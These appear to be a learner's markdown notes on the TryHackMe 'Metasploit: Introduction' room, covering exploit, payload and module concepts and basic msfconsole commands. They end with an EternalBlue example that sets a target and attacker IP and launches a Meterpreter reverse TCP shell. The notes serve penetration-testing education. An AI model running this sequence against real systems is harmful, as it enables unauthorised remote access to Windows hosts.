 # TryHackMe – Metasploit: Introduction

## 🧠 Summary
This room introduces the Metasploit Framework, a powerful tool for penetration testing. It covers key concepts like vulnerabilities, exploits, and payloads, and explains how to use `msfconsole` to interact with Metasploit modules.

## 🔍 Key Concepts
- **Vulnerability**: A flaw in a system that can be exploited.
- **Exploit**: Code that takes advantage of a vulnerability.
- **Payload**: Code executed on the target after exploitation (e.g., reverse shell).

## 🧰 Module Types
- **Exploit**: Executes attacks
- **Payload**: Runs code on the target
- **Auxiliary**: Scanners, fuzzers, etc.
- **Post**: Post-exploitation tools
- **Encoder/Evasion**: Obfuscation and AV bypass
- **NOPs**: Padding instructions

## 💻 Useful Commands
- `msfconsole` – Launch Metasploit
- `search <term>` – Find modules
- `use <module>` – Load a module
- `set/setg` – Set local/global parameters
- `show options` – View required settings
- `exploit` / `run` – Launch module
- `sessions` – Manage active sessions
## 🧪 Example
```bash
use exploit/windows/smb/ms17_010_eternalblue
setg RHOSTS <target-ip>
set LHOST <your-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit -z
sessions -i 1
